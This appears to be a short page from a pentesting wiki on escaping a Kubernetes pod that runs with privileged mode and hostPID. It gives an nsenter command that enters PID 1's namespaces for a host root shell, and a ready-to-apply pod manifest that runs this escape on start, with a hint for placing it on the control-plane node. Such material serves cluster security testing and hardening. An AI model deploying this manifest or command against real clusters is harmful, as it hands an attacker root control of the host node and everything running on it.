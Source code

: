 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

With these privileges you will have **access to the hosts processes** and **enough privileges to enter inside the namespace of one of the host processes**.\
Note that you can potentially not need privileged but just some capabilities and other potential defenses bypasses (like apparmor and/or seccomp).

Just executing something like the following will allow you to escape from the pod:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

Configuration example:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-and-hostpid-exec-pod
  labels:
    app: pentest
spec:
  hostPID: true
  containers:
    - name: priv-and-hostpid-pod
      image: ubuntu
      tty: true
      securityContext:
        privileged: true
      command:
        [
          "nsenter",
          "--target",
          "1",
          "--mount",
          "--uts",
          "--ipc",
          "--net",
          "--pid",
          "--",
          "bash",
        ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```

{{#include ../../../banners/hacktricks-training.md}}
